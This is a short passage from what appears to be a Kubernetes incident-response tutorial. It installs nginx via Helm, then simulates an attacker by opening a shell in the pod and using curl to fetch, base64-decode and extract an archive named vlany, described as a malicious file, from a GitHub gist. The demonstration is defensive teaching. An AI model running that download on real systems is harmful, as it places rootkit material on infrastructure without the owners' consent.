 We will go now go through a incident response workflow and how you can investigate an event.

Let's use Helm to install a nginx container:

`helm repo add bitnami https://charts.bitnami.com
helm install --name example bitnami/nginx`

You can check that the container is running, and its name by running  
`kubectl get po -l app=example-nginx`

Now let's play the attacker, and spawn a shell:  
`kubectl exec -it YOUR_POD_NAME -c example-nginx -- /bin/bash`

You can execute a few commands inside the container, or even download some malicious file.  
`cd /tmp &&
curl https://gist.githubusercontent.com/mateobur/d888e36de12f8fe42a18f54ce4b1fc7c/raw/dd0c4cb23db7cc17a2086c5dee9338522fb8ae69/vlany | base64 -d > vlany-master.tar.gz &&
tar zxvf vlany-master.tar.gz`
